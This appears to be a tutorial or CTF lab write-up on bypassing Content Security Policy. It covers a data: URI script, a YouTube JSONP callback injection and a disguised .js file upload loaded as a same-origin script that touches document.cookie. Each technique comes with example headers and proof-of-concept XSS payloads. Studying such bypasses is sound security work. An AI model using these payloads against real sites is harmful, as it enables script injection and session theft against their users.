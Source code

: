 ### Bypassing CSP Mechanisms
**1. CSP data: URI Bypass**

If the CSP allows the `data:` scheme, you can execute JavaScript like this:

**Example Header:**
```http
Content-Security-Policy: script-src 'self' https://website.com data:
```

**Payload:**
```html
<script src="data:text/javascript,alert(1337)"></script>
```
This works because `script-src` allows `data:` URIs, letting an attacker inject JavaScript via `data:` URL.

---

**2. CSP JSONP Bypass**

- Steps:
    - Open DevTools → Network
    - Navigate to `/csp-jsonp/`
    - Inspect response headers:
    ```http
    Content-Security-Policy: script-src 'self' https://website.com https://www.google.com https://www.youtube.com
    ```

**YouTube JSONP Endpoint Example:**
```html
<script src="https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=LfQ4-VLjhhQ&callback=alert(1)"></script>
```
Since YouTube is an allowed script source, and their JSONP endpoint allows `callback=`, we can inject our own function such as `alert(1)`.

---

**3. CSP File Upload Bypass**
Scenario: CSP only allows `script-src 'self'`.

- Steps:
    1. Upload a file named `image.png.js`:
    ```http
    POST /csp-upload/profile.php HTTP/1.1
    Content-Disposition: form-data; name="file"; filename="image.png.js"
    Content-Type: image/png

    --Data--
    ```
    2. Refresh the upload page. The uploaded JS file URL may be:
    ```http
    https://npzp98h0.eu2.ctfio.com/csp-upload/uploads/6eeee08bc3c82983852fb8fd3b538cd7.js
    ```
    3. Modify the file content to include a payload:
    ```js
    alert(1);
    document.cookie;
    ```
    4. Inject the payload into a comment field or HTML:
    ```html
    <script src="https://npzp98h0.eu2.ctfio.com/csp-upload/uploads/6eeee08bc3c82983852fb8fd3b538cd7.js"></script>
    ```
    This bypass works because the uploaded file has a `.js` extension and can be loaded by the browser as a script from the same origin.
